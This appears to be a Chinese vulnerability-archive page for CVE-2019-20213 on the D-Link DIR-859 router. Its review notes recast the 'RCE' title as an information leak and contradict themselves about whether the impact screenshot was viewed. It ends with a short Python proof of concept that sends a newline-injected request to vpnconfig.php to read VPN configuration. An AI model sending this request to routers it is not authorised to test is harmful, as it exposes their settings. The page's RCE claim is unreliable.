

## 2026-10-03 技术核验

CNA 与 D-Link 公告的逐编号列表将 CVE-2019-20213 对应为未认证信息泄露；同一公告中的命令执行问题另有编号。本页请求仅读取 vpnconfig.php 响应，未展示命令执行链，因此显示标题按信息泄露校正，原题、请求和路径保留。已查看本页影响范围截图：它是一张固件状态表，不含命令执行证据；其中 DIR-859 Ax 列为 v1.06b01Beta01 及更早、修复 v1.07b03_beta，表内多个型号来自合集公告，不能据此全部映射到本 CVE。

# （CVE-2019–20213）D-Link DIR-859 rce

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DIR859声称
- 本文讨论：文件名CVE-2019-20213，vpnconfig.php pwnd换行请求
- 版本、权限与配置前提：版本/认证/配置未知，只有图片影响表
- 资料类型：极简外观PoC线索；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 无H1/CVE元数据，编号使用en dash；简介空白
- 代码仅GET后打印响应，无任何命令/注入解释或期望结果，不能证明RCE
- 无原始出处或修复
- 已落实的文本修订：补齐文章标题。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 主CVE、影响范围及真正执行链待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 一、漏洞简介

## 二、漏洞影响



## 三、复现过程

```
import requests
# Miguel Mendez Z.
FILES = ["vpnconfig.php"]
IP = "192.168.0.1"
PORT = "80"
headers = {'content-type': 'application/x-www-form-urlencoded'}
print "\n-----------VPN-------------\n"
url_vpn = 'http://{ip}:{port}/{file1}?pwnd=%0a'.format(ip=IP, port=PORT, file1=FILES[0])
print(requests.get(url_vpn).text)
```